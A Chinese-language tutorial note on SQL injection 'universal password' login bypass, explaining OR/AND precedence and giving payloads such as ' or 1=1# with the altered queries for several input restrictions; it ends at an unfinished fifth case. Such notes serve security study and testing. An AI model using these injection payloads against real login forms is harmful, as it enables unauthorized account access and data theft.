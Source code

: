 1. 代码审计，阅读代码发现漏洞。
2. 万能密码构造。
3. 编写漏洞利用工具。

## 万能密码

<span data-type="text" style="background-color: var(--b3-font-background9);">or 只要有一个真值就为真</span>

<span data-type="text" style="background-color: var(--b3-font-background9);">and 只有当所有操作数都为真时，整个表达式才为真</span>

`and`​ <span data-type="text" style="background-color: var(--b3-font-background9);"> 操作符的优先级高于 </span> `or`​ <span data-type="text" style="background-color: var(--b3-font-background9);"> 操作符</span>

1. 无限制

    ```bash
    user = ' or 1=1# pass = 1
    ' or 'a'='a'
    ```

    原理：比如内部有如下查询语句：

    ```php
    select * from user where username=' ' and password=''
    ```

    当我们输入  `' or 1=1#`  之后，查询语句变为：

    ```php
    select * from user where username=' 'or 1=1#' and password='pass'
    select * from user where username=' 'or 1=1    //因为有注释符所有是这样  or 1=1会使SQL语句恒成立（ture），从而查询出数据库中的所有账号和密码，从而使我们成功登录
    ```

2. 用户名不能输入#

    `user = ' or 1=1 or ''='  pass= 1`

    ```php
    select * from user where username='' or 1=1 or ' ' = ' ' and password='1'
                                      1  or  1  or     1     and 0   ==>1 or 1 or (1 and 0) ==>1 or 1 or 0 ==> 1
    ```
3. 用户名不能输入不存在的用户名的字符串

    user \=  `admin`    pass\= `' or 1=1#`

    ```php
    select * from user where username=' admin ' and password=' ' or 1=1# '
                                          1     and         0    or  1  ==>   0  or  1 ==>  1   
    ```
4. 密码位置不能输入#

    `user = admin pass = ' or 1=1 or '' = '`

    ```php
    select * from user where username=' admin ' and password='   ' or 1=1 or '' = ' '
                                        1       and        0       or  1  or 1  ==>  0  or 1  or 1 ==>  1 or 1 ==> 1
    ```
5. 不能输入or #
